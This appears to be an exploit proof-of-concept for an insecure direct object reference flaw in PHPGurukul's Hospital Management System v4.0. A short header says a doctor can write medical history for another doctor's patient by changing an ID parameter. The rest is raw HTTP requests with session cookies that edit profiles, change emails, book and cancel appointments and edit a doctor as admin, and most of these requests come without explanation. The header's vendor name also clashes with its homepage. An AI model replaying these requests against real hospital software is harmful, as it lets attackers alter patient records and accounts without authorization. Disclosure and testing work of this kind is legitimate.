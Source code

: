 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to add medical history for patient who is managed by other doctor(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hospital/hms/doctor/view-patient.php?viewid=2(CHANGE HERE) HTTP/1.1

bp=90&bs=6.9&weight=90&temp=37&pres=AAAAA&submit=
```



POST /hospital/hms/edit-profile.php HTTP/1.1
Host: localhost:8190
Content-Length: 80
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/edit-profile.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

fname=user1&address=aaaaaa&city=abbb&gender=male&uemail=user2%40test.com&submit=


POST /hospital/hms/change-emaild.php HTTP/1.1
Host: localhost:8190
Content-Length: 30
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/change-emaild.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

email=user2%40test.com&submit=


POST /hospital/hms/book-appointment.php HTTP/1.1
Host: localhost:8190
Content-Length: 93
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/book-appointment.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

Doctorspecialization=Orthopedics&doctor=4&fees=0&appdate=2023-12-30&apptime=9%3A00+PM&submit=

GET /hospital/hms/appointment-history.php?id=6&cancel=update HTTP/1.1
Host: localhost:8190
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/appointment-history.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close



GET /hospital/hms/doctor/appointment-history.php?id=3&cancel=update HTTP/1.1
Host: localhost:8190
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/doctor/appointment-history.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close


POST /hospital/hms/admin/edit-doctor.php?id=4 HTTP/1.1
Host: localhost:8190
Content-Length: 132
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8190/hospital/hms/admin/edit-doctor.php?id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp-settings-time-3=1696498166; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1699523409; R_PCS=light; R_LOCALE=zh-hans; PHPSESSID=340efab67170ea61447f069017ce4e77
Connection: close

Doctorspecialization=Orthopedics&docname=user1d&clinicaddress=aaaaaa&docfees=20&doccontact=123456&docemail=user1d%40test.com&submit=

